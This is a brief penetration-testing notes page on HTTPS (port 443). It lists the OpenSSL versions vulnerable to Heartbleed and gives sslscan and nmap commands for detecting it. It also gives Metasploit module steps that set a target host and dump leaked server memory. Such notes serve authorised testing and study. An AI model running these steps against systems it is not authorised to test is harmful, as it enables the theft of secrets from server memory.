 ```yaml
---
title: ""
permalink: /443-HTTPS/
layout: single
author-profile: true
---
```

# 443-HTTPS

Okay this is only here as a reminder to always check for SSL-vulnerabilities such as heartbleed. For more on how to exploit web-applications check out the chapter on client-side vulnerabilities.
Heartbleed

OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable OpenSSL 1.0.1g is NOT vulnerable OpenSSL 1.0.0 branch is NOT vulnerable OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to heartbleed, we can do that the following way:

sudo sslscan ip:443

  or using a nmap script

  nmap -sV --script=ssl-heartbleed ip

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

- use auxiliary/scanner/ssl/openssl_heartbleed
- set RHOSTS 192.168.101.8
- set verbose true
- run

Now you have a flow of random data, some of it might be of interest to you.
- CRIME
- Breach
- Certificate

Read the certificate.

Does it include names that might be useful?

